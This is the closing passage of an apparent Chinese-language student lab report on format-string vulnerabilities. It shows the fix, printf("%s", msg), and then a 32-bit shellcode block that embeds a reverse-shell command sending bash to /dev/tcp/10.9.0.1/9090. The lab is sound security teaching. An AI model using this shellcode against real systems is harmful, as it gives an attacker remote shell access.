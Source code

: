 ### 8 Task 6: Fixing the Problem  

修改如下。

```c
    // This line has a format-string vulnerability
    printf("%s", msg);
```

重新编译发现警告信息消失：

![image-20231211194112960](/img/posts/2023-12-11-格式化字符串实验报告.assets/image-20231211194112960.png)

重新进行攻击，尝试打印出前100个参数，失败：

![image-20231211194819158](/img/posts/2023-12-11-格式化字符串实验报告.assets/image-20231211194819158.png)

### 9 Guidelines on Reverse Shell  

只需修改shellcode内容即可

```python
# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```
